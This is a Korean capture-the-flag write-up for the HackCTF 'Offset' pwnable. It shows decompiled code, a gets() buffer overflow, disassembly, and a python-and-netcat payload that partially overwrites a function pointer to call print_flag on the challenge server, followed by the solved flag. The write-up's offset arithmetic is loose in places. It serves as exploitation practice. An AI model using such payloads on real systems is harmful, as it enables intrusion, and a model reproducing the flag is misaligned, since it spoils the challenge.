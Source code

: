 #Offset

---

`main()`의 코드는 다음과 같다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _BYTE v4[3]; // [esp-27h] [ebp-27h]
  int *v5; // [esp-Ch] [ebp-Ch]

  v5 = &argc;
  setvbuf(stdout, (char *)&dword_0 + 2, 0, 0);
  puts("Which function would you like to call?");
  gets(v4);
  select_func(v4);
  return 0;
}
```

`gets()`에서 bufferoverflow가 일어난다. 때문에 `main()`의 ret address를 조작하여 다음 함수로 수정하면 익스가 가능할 것이다.

```c
int print_flag()
{
  char i; // al
  FILE *v2; // [esp-Ch] [ebp-Ch]

  puts("This function is still under development.");
  v2 = fopen("flag.txt", "r");
  for ( i = _IO_getc(v2); i != -1; i = _IO_getc(v2) )
    putchar(i);
  return putchar(10);
}
```

하지만 PIE 보호기법이 걸려 있어서 해당 방법을 사용하기 위해서는 libc base를 lick하여야만 한다.

```gdb
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

---

**[풀이참조]**

select_func함수에서 코드를 보자.
```gdb
    gdb-peda$ pd select_func
    Dump of assembler code for function select_func:
       0x0000077f <+0>: 	push   ebp
       0x00000780 <+1>: 	mov ebp,esp
       0x00000782 <+3>: 	push   ebx
       0x00000783 <+4>: 	sub esp,0x34
       0x00000786 <+7>: 	call   0x5b0 <__x86.get_pc_thunk.bx>
       0x0000078b <+12>:	add ebx,0x182d
       0x00000791 <+18>:	lea eax,[ebx-0x190b]
       0x00000797 <+24>:	mov DWORD PTR [ebp-0xc],eax
       0x0000079a <+27>:	sub esp,0x4
       0x0000079d <+30>:	push   0x1f
       0x0000079f <+32>:	push   DWORD PTR [ebp+0x8]
       0x000007a2 <+35>:	lea eax,[ebp-0x2a]
       0x000007a5 <+38>:	push   eax
       0x000007a6 <+39>:	call   0x550 <strncpy@plt>
       0x000007ab <+44>:	add esp,0x10
       0x000007ae <+47>:	sub esp,0x8
       0x000007b1 <+50>:	lea eax,[ebx-0x1675]
       0x000007b7 <+56>:	push   eax
       0x000007b8 <+57>:	lea eax,[ebp-0x2a]
       0x000007bb <+60>:	push   eax
       0x000007bc <+61>:	call   0x4d0 <strcmp@plt>
       0x000007c1 <+66>:	add esp,0x10
       0x000007c4 <+69>:	test   eax,eax
       0x000007c6 <+71>:	jne 0x7d1 <select_func+82>
       0x000007c8 <+73>:	lea eax,[ebx-0x1864]
       0x000007ce <+79>:	mov DWORD PTR [ebp-0xc],eax
       0x000007d1 <+82>:	mov eax,DWORD PTR [ebp-0xc]
       0x000007d4 <+85>:	call   eax
       0x000007d6 <+87>:	nop
       0x000007d7 <+88>:	mov ebx,DWORD PTR [ebp-0x4]
       0x000007da <+91>:	leave  
       0x000007db <+92>:	ret
    End of assembler dump.
```
`select_func()+85`에서 call eax를 할 때, eax값에 `print_flag()`의 offset이 담겨있도록 하면 된다. 그 offset은 fd8이고, 입력을 받는 공간인 ebp-0x2a와 ebp-0xc는 30bytes떨어져 있으므로 다음과 같이 payload를 구성하면 된다.

**[dummy 30bytes]+0xfd8**
```bash
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/8.Offset$ (python -c "print 'A'*30+'\xd8\x06'";cat) | nc ctf.j0n9hyun.xyz 3007
    Which function would you like to call?
    This function is still under development.
    HackCTF{76155655017129668567067265451379677609132507783606}
```
**flag: HackCTF{76155655017129668567067265451379677609132507783606}**

